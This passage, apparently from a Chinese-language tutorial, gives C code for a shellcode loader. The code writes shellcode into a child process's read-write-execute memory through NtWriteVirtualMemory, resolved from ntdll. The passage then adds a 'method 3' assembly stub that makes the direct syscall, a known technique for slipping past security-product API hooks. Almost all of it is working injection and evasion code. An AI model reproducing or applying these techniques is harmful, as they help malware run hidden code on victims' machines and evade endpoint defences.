```
        /*step 3: 调用 WriteProcessMemory 将 Shellcode 数据写入刚申请的内存中*/
        if (rwxpage != 0) {
            //memory_result = WriteProcessMemory(pi.hProcess, rwxpage, buf, length, NULL);
            typedef NTSTATUS(WINAPI* _NtWriteVirtualMemory)(
                HANDLE ProcessHandle,
                PVOID  BaseAddress,
                PVOID  Buffer,
                ULONG  NumberOfBytesToWrite,
                PULONG NumberOfBytesWritten
                );
            typedef ULONG(WINAPI* _RtlNtStatusToDosError)(
                NTSTATUS Status
                );
            HMODULE hmNtdll = GetModuleHandle(L"ntdll.dll");
            if (hmNtdll != 0)
            {
                _NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory)GetProcAddress(hmNtdll, "NtWriteVirtualMemory");
                _RtlNtStatusToDosError RtlNtStatusToDosError = (_RtlNtStatusToDosError)GetProcAddress(hmNtdll, "RtlNtStatusToDosError");
                if (!NtWriteVirtualMemory || !RtlNtStatusToDosError)
                {
                    return;
                }
                NTSTATUS status = NtWriteVirtualMemory(pi.hProcess, rwxpage, buf, length, NULL);
                if (!NT_SUCCESS(status))
                {
                    SetLastError(RtlNtStatusToDosError(status));
                    _tprintf(_T("NtWriteVirtualMemory failed (%d).\n"), GetLastError());
                    return;
                }
            }
        }


    return;
}
```


# 方法3：syscall

![title](https://leanote.com/api/file/getImage?fileId=5f62f6c5ab64415d1c00060c)


```
;.asm

.code


NtWriteVirtualMemory proc
	mov     r10, rcx       
	mov     eax, 3Ah 
	syscall
	ret


NtWriteVirtualMemory endp
```
